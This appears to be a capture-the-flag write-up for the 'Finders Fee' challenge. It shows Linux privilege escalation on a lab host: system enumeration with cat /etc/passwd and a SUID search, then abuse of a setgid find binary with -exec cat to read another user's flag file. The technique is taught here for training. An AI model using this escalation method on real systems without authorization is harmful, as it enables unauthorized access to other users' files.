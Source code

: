 # Finders Fee CTF Challenge Write-Up

## Challenge Description
**Author:** @JohnHammond  
**Description:**  
You gotta make sure the people who find stuff for you are rewarded well!  
Escalate your privileges and uncover the `flag.txt` in the finder user's home directory.

**Connect with:**
```
ssh -p 30235 user@challenge.ctf.games
Password: userpass
```

**Objective:**  
Gain access to the `flag.txt` file located in the `finder` user's home directory by escalating privileges from the `user` account.

---

## Solution

### 1. Connecting to the Remote Machine
First, I connected to the remote machine using the provided SSH credentials:

```
ssh -p 30235 user@challenge.ctf.games
```

When prompted, I entered the password `userpass`.

### 2. Enumerating the System
After logging in, I began by checking which user I was and listing the users with home directories:

```
whoami
# Output: user
```

Then, I listed the contents of `/etc/passwd` to find users with home directories:

```
cat /etc/passwd | grep '/home'
# Output:
# ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
# user:x:1001:1001::/home/user:/bin/bash
# finder:x:1002:1002::/home/finder:/bin/bash
```

Next, I listed the contents of the `/home` directory:

```
ls -la /home
# Output:
# drwxr-xr-x 1 root   root   4096 Oct  7 18:52 .
# drwxr-xr-x 1 root   root   4096 Oct 14 15:58 ..
# drwxr-x--- 1 finder finder 4096 Oct  7 18:52 finder
# drwxr-x--- 2 ubuntu ubuntu 4096 Sep  4 14:07 ubuntu
# drwxr-x--- 1 user   user   4096 Oct 14 16:00 user
```

I didn't have permission to access the `finder` home directory directly.

### 3. Checking for Sudo Permissions
I attempted to check for sudo permissions:

```
sudo -l
# Output: sudo: command not found
```

Since `sudo` wasn't available, I needed to find another way to escalate privileges.

### 4. Searching for SUID Binaries
I searched for files with the SUID bit set:

```
find / -perm -u=s -type f 2>/dev/null
```

The output showed standard binaries with no immediate privilege escalation vectors.

### 5. Investigating the Find Command
Given the challenge name "Finders Fee," I suspected that the `find` command might be involved. I checked its permissions:

```
which find
# Output: /usr/bin/find
```

Then, I listed the details of the `find` binary:

```
ls -la $(which find)
# Output:
# -rwxr-sr-x 1 root finder 204264 Apr  8  2024 /usr/bin/find
```

**Observation:**  
The `find` binary has the `setgid` bit set (`-rwxr-sr-x`) and is associated with the group `finder`. This means that when I execute `find`, it runs with the group permissions of `finder`.

### 6. Exploiting the Setgid Find Binary
Since `find` runs with the `finder` group privileges, I could use it to read files accessible to that group.

#### Attempting to Read the Flag Directly
I executed the following command to read the `flag.txt` file:

```
find /home/finder/flag.txt -exec cat {} \;
```

**Flag:**
```
flag{5da1de289823cfc200adf91d6536d914}
```

I successfully retrieved the flag!
